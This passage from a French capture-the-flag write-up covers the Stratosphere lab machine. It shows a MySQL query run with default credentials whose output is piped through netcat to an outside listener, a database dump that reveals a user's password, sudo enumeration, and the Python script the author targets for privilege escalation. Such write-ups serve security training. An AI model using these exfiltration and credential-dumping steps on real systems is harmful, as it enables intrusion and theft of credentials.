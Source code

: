 En listant les processus j'ai préalablement remarqué la présence d'un serveur MySQL. Sert-il à quelque chose ? Il suffit de passer les identifiants et la requête sur la ligne de commande (sans oublier la redirection d'erreur) :  

```bash
echo 'show databases;'|mysql -uadmin -padmin 2>&1|netcat -u 10.10.14.209 8888
```

Finalement on obtient un retour positif :  

```plain
devloop@kali:~/Documents/stratosphere$ ncat -l -p 8888 -v -u
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.64.
Database
information_schema
users
```

On enchaîne sur un *show tables* puis un *select \** :  

```plain
Tables_in_users
accounts

fullName    password    username
Richard F. Smith    9tc*rhKuG5TyXvUJOrE^5CK7k   richard
```

Ça y est on le tient enfin le mot de passe de cet [enc\*\*eur de maman](https://www.youtube.com/watch?v=Q_2837XvxGo) !  

Python skills 101
-----------------

L'accès SSH nous permet d'obtenir le flag utilisateur (*e610b298611fa732fca1665a1c02336b*)  

```plain
richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
```

Une entrée sudo nous permet d'exécuter un script via Python2 ou Python3. Bien sûr on ne dispose pas d'autorisations en récrire sur ce script dont voici le contenu :  

```python
#!/usr/bin/python3
import hashlib

def question():
    q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
    md5 = hashlib.md5()
    md5.update(q1.encode())
    if not md5.hexdigest() == "5af003e100c80923ec04d65933d382cb":
        print("Sorry, that's not right")
        return
    print("You got it!")
    q2 = input("Now what's this one? d24f6fb449855ff42344feff18ee2819033529ff\n")
    sha1 = hashlib.sha1()
    sha1.update(q2.encode())
    if not sha1.hexdigest() == 'd24f6fb449855ff42344feff18ee2819033529ff':
        print("Nope, that one didn't work...")
        return
```